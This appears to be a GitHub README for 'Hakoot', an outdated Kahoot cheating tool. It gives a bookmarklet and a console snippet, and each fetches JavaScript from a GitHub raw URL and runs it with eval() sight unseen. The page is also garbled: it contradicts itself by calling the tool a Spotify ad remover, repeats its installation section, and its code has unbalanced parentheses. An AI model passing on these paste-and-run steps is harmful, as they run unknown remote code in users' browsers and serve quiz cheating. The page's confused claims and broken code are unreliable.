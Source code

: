 <h1 text align = "center">🧑‍🏫 Hakoot [OutDated] 2019-2020 🧑‍🏫</h1> 

<p text align = "center">⚠️ This version of extension is *OutDated*⚠️ </p>
<p text align = "center"> Status: working for challenges </p>

<h1 text align = "center">Klahoot is the best, most reliable and FREE service getting rid of annoying Spotify Ads.</h1>

<h1 text align = "center"> H@ck </h1>

</br></br>
1. Add this to your bookmarks </br>
`javascript:fetch("https://raw.githubusercontent.com/1hipo1/yes/main/yesyes.js" 
  .then((r) => r.text() 
  .then((t) => eval(t)));` 
   
2. Paste this into console
`fetch("https://raw.githubusercontent.com/DYLOjestem/Cheats/main/kahoot.js") 
  .then((res) => res.text() 
  .then((t) => eval(t)))`

</br>

<h1 text align = "center"> Installation </h1>

</br></br>
1. You can simply download our extension from chrome web store. <a href="https://chrome.google.com/webstore/detail/klahoot-spotify-ad-remove/glpljojimangbbmcgjkjekeaienoagda">Chrome Web Store</a> </br> 
2. Or you can download zip, unzip, turn on developer mode in chrome and then drag and drop the folder with exetension files. 

</br>

<h1 text align = "center"> Installation </h1>

</br></br>
1. You can simply download our extension from chrome web store. <a href="https://chrome.google.com/webstore/detail/klahoot-spotify-ad-remove/glpljojimangbbmcgjkjekeaienoagda">Chrome Web Store</a> </br> 
2. Or you can download zip, unzip, turn on developer mode in chrome and then drag and drop the folder with exetension files. 

</br>

<p text align = "center">🍏 GLHF 😆 </p>

<h6 text align = "right">Kuczi$</h6>
